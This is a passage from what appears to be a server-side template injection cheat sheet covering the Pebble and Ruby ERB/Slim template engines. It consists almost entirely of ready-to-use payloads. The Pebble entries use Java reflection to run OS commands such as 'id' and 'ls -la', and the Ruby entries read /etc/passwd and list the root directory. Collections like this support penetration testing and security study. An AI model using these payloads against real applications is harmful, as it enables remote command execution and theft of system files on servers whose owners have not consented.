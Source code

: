 ### Pebble - Basic injection

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - Code execution

Old version of Pebble ( < version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

---

## Ruby

### Ruby - Basic injections

ERB:

```ruby
<%= 7 * 7 %>
```

Slim:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```
